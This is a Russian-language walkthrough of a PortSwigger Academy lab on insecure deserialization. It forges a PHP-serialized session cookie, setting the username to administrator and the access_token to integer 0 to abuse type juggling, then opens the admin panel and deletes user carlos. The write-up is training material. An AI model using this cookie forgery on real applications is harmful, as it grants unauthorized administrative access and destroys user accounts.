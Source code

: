 Залогинимся под `wiener:peter`

в `Proxy` -> `HTTP history`

увидим, что после логина нам выдало следующую куку
```
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsNHIzNnlxbzdoeHR3bGl3ZW9vOHhoaWx0dWlwcmF6bCI7fQ%3d%3d
```

что в декодированном виде будет выглядеть как
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"l4r36yqo7hxtwliweoo8xhiltuiprazl";}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/2.%20Modifying%20serialized%20data%20types/pics%20for%20walkthrough/1.png)

Отправим 
```
GET /my-account?id=wiener
...
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsNHIzNnlxbzdoeHR3bGl3ZW9vOHhoaWx0dWlwcmF6bCI7fQ%3d%3d
```
В `Repeater`

Далее изменим декодированную часть, чтобы залогинится под аккаунтом administrator как и положено по заданию

изменим 
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
и нажмем `Apply changes` и отправим запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/2.%20Modifying%20serialized%20data%20types/pics%20for%20walkthrough/2.png)

После редиректов увидим, что у нас в рендере появилась панель `Admin panel`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/2.%20Modifying%20serialized%20data%20types/pics%20for%20walkthrough/3.png)

Перейдем в `/admin `
```
GET /admin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/2.%20Modifying%20serialized%20data%20types/pics%20for%20walkthrough/4.png)

и удалим УЗ `carlos`, как это и требует задание
```
GET /admin/delete?username=carlos 
```
И после всех редиректов получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/2.%20Modifying%20serialized%20data%20types/pics%20for%20walkthrough/5.png)
